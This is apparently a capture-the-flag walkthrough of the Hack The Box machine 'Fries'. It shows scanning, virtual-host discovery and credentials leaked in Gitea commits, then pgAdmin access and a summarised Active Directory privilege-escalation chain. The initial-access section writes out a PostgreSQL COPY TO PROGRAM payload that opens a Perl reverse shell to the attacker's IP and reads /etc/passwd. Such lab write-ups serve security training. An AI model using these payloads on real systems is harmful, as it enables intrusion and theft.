## Table of Contents

- [Summary](#Summary)
- [Machine Information](#Machine-Information)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
    - [Enumeration of Port 80/TCP](#Enumeration-of-Port-80TCP)
    - [Virtual Host Discovery (VHOST)](#Virtual-Host-Discovery-VHOST)
    - [Gitea Enumeration](#Gitea-Enumeration)
    - [db-mgmt05 Enumeration](#db-mgmt05-Enumeration)
- [Initial Access](#Initial-Access)
- [Enumeration (postgres)](#Enumeration-postgres)
- [Port Forwarding Part 1](#Port-Forwarding-Part-1)
- [Subnet Enumeration](#Subnet-Enumeration)
- [Password Self Service Enumeration](#Password-Self-Service-Enumeration)
- [CVE-2025-2945: pgAdmin Query Tool authenticated Remote Code Execution (RCE)](#CVE-2025-2945-pgAdmin-Query-Tool-authenticated-Remote-Code-Execution-RCE)
- [Enumeration (web)](#Enumeration-web)
- [Accessing 172.18.0.1](#Accessing-1721801)
    - [Port Forwarding Part 2](#Port-Forwarding-Part-2)
    - [NFS Access](#NFS-Access)
- [Forging Certificate](#Forging-Certificate)
- [Cracking the Hash using John the Ripper](#Cracking-the-Hash-using-John-the-Ripper)
- [Accessing the Configuration Manager](#Accessing-the-Configuration-Manager)
- [Man-in-the-Middle Attack](#Man-in-the-Middle-Attack)
    - [Privilege Escalation to gMSA_CA_prod$](#Privilege-Escalation-to-gMSA_CA_prod$)
        - [Dumping gMSA Hash](#Dumping-gMSA-Hash)
- [Enumeration (gMSA_CA_prod$)](#Enumeration-gMSA_CA_prod$)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [Time and Date Synchronization](#Time-and-Date-Synchronization)
    - [Active Directory Certificate Services (AD CS) Abuse](#Active-Directory-Certificate-Services-AD-CS-Abuse)
        - [Certificate Authority Enumeration (CA)](#Certificate-Authority-Enumeration-CA)
        - [ESC16: Security Extension Disabled on CA (Globally) + ESC6: CA Allows SAN Specification via Request Attributes](#ESC16-Security-Extension-Disabled-on-CA-Globally--ESC6-CA-Allows-SAN-Specification-via-Request-Attributes)
- [user.txt](#usertxt)
- [root.txt](#roottxt)
- [Post Exploitation](#Post-Exploitation)

## Summary

The box starts with `Credentials` provided for the user `d.cooper@fries.htb`. The `Virtual Host Discovery` (`VHOST`)leads to a `Gitea` instance hosted on `code.fries.htb` where it is possible to discover `Credentials` for `PostgreSQL` and another `Virtual Host` called `db-mgmt05.fries.htb`.

The `pgAdmin` instance running on `db-mgmt05.fries.htb` is accessible using the `d.cooper` credentials. From here it is possible to leverage `CVE-2025-2945` which allows `Authenticated Remote Code Execution` (`RCE`) via the `Query Tool` functionality. This grants a `shell` as the `postgres` user inside a `Docker container`.

From the `Docker Container` it is possible to perform `Port Forwarding` using `Chisel` to access the internal `Subnet` using the network of `172.18.0.0/24`. `Subnet Enumeration` reveals a `Password Self Service` (`PWM`) portal running on `172.18.0.1` on port `8443/TCP`. Further enumeration through the exploitation of `pgAdmin` exfiltrate `Environment Variables` containing `Credentials` which grant `SSH Access` to the host as a user called `svc`.

Once on the host `Docker Certificates` can be found  via an exposed `NetworkFileSystem` (`NFS`) `Share`. Forging a `Certificate` allow to interact with the `Docker Daemon` and `extract the PWM Configuration File` from a running `Container`. This configuration file contains a `Bcrypt Hash` which can be `cracked` to gain access to the `PWM Configuration Manager`.

By modifying the `LDAP Connection Settings` in the `PWM Configuration Manager` to point to an attacker-controlled `LDAP Server` and using `Responder`, a `Man-in-the-Middle` (`MITM`) `Attack` to capture the `cleartext Credentials` for the `svc_infra` user can be performed.

The `svc_infra` user has permissions to read the `Group Managed Service Account` (`gMSA`) password for `gMSA_CA_prod$`. This account has `ManageCA` permissions on the `Certificate Authority` (`CA`) which allows the modification of `CA Settings`. By disabling the `Security Extension` (`ESC16`) and enabling `User Specified SAN` (`ESC6`) on the `CA`, it is possible to request a `Certificate` for the `Administrator` account and obtain the `NTLM Hash` to gain full `Domain Administrator` access.

## Machine Information

Please allow up to 7 minutes for services to load. As is common in real life Windows penetration tests, you will start the Fries box with credentials for the following account : `d.cooper@fries.htb / D4LE11maan!!`

## Reconnaissance

### Port Scanning

We started with our initial `Port Scan` using `Nmap` which revealed a variety of open ports including `SSH`, `DNS`, `HTTP/HTTPS`, `Kerberos`, `RPC`, `SMB`, `LDAP`, and `WinRM`. This indicated an `Active Directory` (`AD`) environment with both `Windows` and `Linux` components.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.79.133
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-22 20:03 CET
Nmap scan report for 10.129.79.133
Host is up (0.019s latency).
Not shown: 984 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b3:a8:f7:5d:60:e8:66:16:ca:92:f6:76:ba:b8:33:c2 (ECDSA)
|_  256 07:ef:11:a6:a0:7d:2b:4d:e8:68:79:1a:7b:a7:a9:cd (ED25519)
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://fries.htb/
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-23 02:03:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fries.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fries.htb, DNS:fries.htb, DNS:FRIES
| Not valid before: 2025-11-18T05:39:19
|_Not valid after:  2105-11-18T05:39:19
|_ssl-date: 2025-11-23T02:04:48+00:00; +7h00m01s from scanner time.
443/tcp  open  ssl/http      nginx 1.18.0 (Ubuntu)
| tls-nextprotoneg: 
|_  http/1.1
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=pwm.fries.htb/organizationName=Fries Foods LTD/stateOrProvinceName=Madrid/countryName=SP
| Not valid before: 2025-06-01T22:06:09
|_Not valid after:  2026-06-01T22:06:09
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesn't have a title (text/html;charset=ISO-8859-1).
|_http-server-header: nginx/1.18.0 (Ubuntu)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fries.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fries.htb, DNS:fries.htb, DNS:FRIES
| Not valid before: 2025-11-18T05:39:19
|_Not valid after:  2105-11-18T05:39:19
|_ssl-date: 2025-11-23T02:04:48+00:00; +7h00m01s from scanner time.
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fries.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fries.htb, DNS:fries.htb, DNS:FRIES
| Not valid before: 2025-11-18T05:39:19
|_Not valid after:  2105-11-18T05:39:19
|_ssl-date: 2025-11-23T02:04:48+00:00; +7h00m01s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fries.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC01.fries.htb, DNS:fries.htb, DNS:FRIES
| Not valid before: 2025-11-18T05:39:19
|_Not valid after:  2105-11-18T05:39:19
|_ssl-date: 2025-11-23T02:04:48+00:00; +7h00m01s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC01; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-time: 
|   date: 2025-11-23T02:04:08
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.17 seconds
```

We added the discovered `hostnames` to our `/etc/hosts` file for easier access throughout the assessment.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.79.133   fries.htb
10.129.79.133   dc01.fries.htb
10.129.79.133   pwm.fries.htb
```

### Enumeration of Port 445/TCP

Next we attempted to enumerate `Server Message Block` (`SMB`) shares using the provided credentials but they did not work for `SMB Authentication`. Anonymous and guest access were also not available.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ netexec smb 10.129.79.133 -u '' -p '' --shares            
SMB         10.129.79.133   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:fries.htb) (signing:True) (SMBv1:False) 
SMB         10.129.79.133   445    DC01             [+] fries.htb\: 
SMB         10.129.79.133   445    DC01             [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ netexec smb 10.129.79.133 -u 'Guest' -p '' --shares 
SMB         10.129.79.133   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:fries.htb) (signing:True) (SMBv1:False) 
SMB         10.129.79.133   445    DC01             [-] fries.htb\Guest: STATUS_ACCOUNT_DISABLED
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Fries/files]
└─$ netexec smb 10.129.79.133 -u 'd.cooper' -p 'D4LE11maan!!' --shares
SMB         10.129.79.133   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:fries.htb) (signing:True) (SMBv1:False) 
SMB         10.129.79.133   445    DC01             [-] fries.htb\d.cooper:D4LE11maan!! STATUS_LOGON_FAILURE
```

### Enumeration of Port 80/TCP

We browsed to the web server on port `80/TCP` which redirected to `http://fries.htb/` and displayed a simple corporate website.


### Virtual Host Discovery (VHOST)

Using `ffuf` we performed `Virtual Host Discovery` (`VHOST`) and found an additional subdomain `code.fries.htb`.

```shell
┌──(kali㉿kali)-[~]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.fries.htb" -u http://fries.htb/ --fs 154

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://fries.htb/
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.fries.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 154
________________________________________________

code                    [Status: 200, Size: 13593, Words: 1048, Lines: 272, Duration: 34ms]
:: Progress: [151265/151265] :: Job [1/1] :: 2666 req/sec :: Duration: [0:00:56] :: Errors: 0 ::
```

We added this to our `/etc/hosts` file as well.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.79.133   fries.htb
10.129.79.133   dc01.fries.htb
10.129.79.133   pwm.fries.htb
10.129.79.133   code.fries.htb
```

### Gitea Enumeration

The `code.fries.htb` subdomain hosted a `Gitea` instance which is a self-hosted `Git` service.

- [http://code.fries.htb/](http://code.fries.htb/)



We logged in using the provided credentials for `d.cooper` and explored the available repositories.





We reviewed the `Commit History` and found several commits containing sensitive information.



The first commit revealed `PostgreSQL` credentials in the `Initial Commit`.

- [http://code.fries.htb/dale/fries.htb/commit/be59cceb54b56f00778822395bdf656216ab4b9f](http://code.fries.htb/dale/fries.htb/commit/be59cceb54b56f00778822395bdf656216ab4b9f)



| Username | Password       |
| -------- | -------------- |
| root     | PsqLR00tpaSS11 |

Another commit revealed a reference to `db-mgmt05.fries.htb`.

- [http://code.fries.htb/dale/fries.htb/commit/47b29c411c3f2fac4fef6b2f896e6cd559dcf0ce](http://code.fries.htb/dale/fries.htb/commit/47b29c411c3f2fac4fef6b2f896e6cd559dcf0ce)



- [http://db-mgmt05.fries.htb](http://db-mgmt05.fries.htb)

We added this `Hostname` to our `/etc/hosts` file as well.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.79.133   fries.htb
10.129.79.133   dc01.fries.htb
10.129.79.133   pwm.fries.htb
10.129.79.133   code.fries.htb
10.129.79.133   db-mgmt05.fries.htb
```

Additional commits revealed potential usernames `dale` and `cooper`.

- [http://code.fries.htb/dale/fries.htb/commit/45c2c6bb516f540d52b70af61ba5f3d066005d05](http://code.fries.htb/dale/fries.htb/commit/45c2c6bb516f540d52b70af61ba5f3d066005d05)



| Username |
| -------- |
| dale     |
| cooper   |

More usernames were discovered in another commit.

- [http://code.fries.htb/dale/fries.htb/commit/83eef4b82f7acf78a3a1a0c66f844fee1f1cb9de](http://code.fries.htb/dale/fries.htb/commit/83eef4b82f7acf78a3a1a0c66f844fee1f1cb9de)



| Username |
| -------- |
| dylan    |
| mike     |

### db-mgmt05 Enumeration

Accessing `db-mgmt05.fries.htb` revealed a `pgAdmin` login page.

- [http://db-mgmt05.fries.htb/login?next=/](http://db-mgmt05.fries.htb/login?next=/)



We successfully authenticated using the provided credentials.

| Username           | Password     |
| ------------------ | ------------ |
| d.cooper@fries.htb | D4LE11maan!! |



After logging in we were able to connect to the database using the `PostgreSQL` credentials found earlier.

- [http://db-mgmt05.fries.htb/browser/](http://db-mgmt05.fries.htb/browser/)



| Password       |
| -------------- |
| PsqLR00tpaSS11 |



Once connected we had access to the `Query Tool` functionality.



We tested basic `file read` capabilities using `pg_read_file()`.

```shell
SELECT pg_read_file('/etc/passwd')
```



## Initial Access

To gain `Initial Access` we crafted a `COPY ... TO PROGRAM` payload that would execute a `Reverse Shell` back to our attack machine using `Perl`.

```shell
COPY (SELECT '') TO PROGRAM 'perl -e ''use Socket;$i="10.10.16.97";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};''';
```



We received a connection back to our listener as the `postgres` user inside a `Docker Container`.

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.97] from (UNKNOWN) [10.129.79.133] 49822
sh: 0: can't access tty; job control turned off
$
```

## Enumeration (postgres)

As first logical step we began the `Enumeration` of the `Docker Container` environment.

```shell
$ id   
uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
```

The `/etc/hosts` file revealed we were on the `172.18.0.3` address within the container network.

```shell
$ cat /etc/hosts
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::  ip6-localnet
ff00::  ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.18.0.3      858fdf51af59
```

We upgraded to a `bash` shell for better functionality.

```shell
$ bash
```

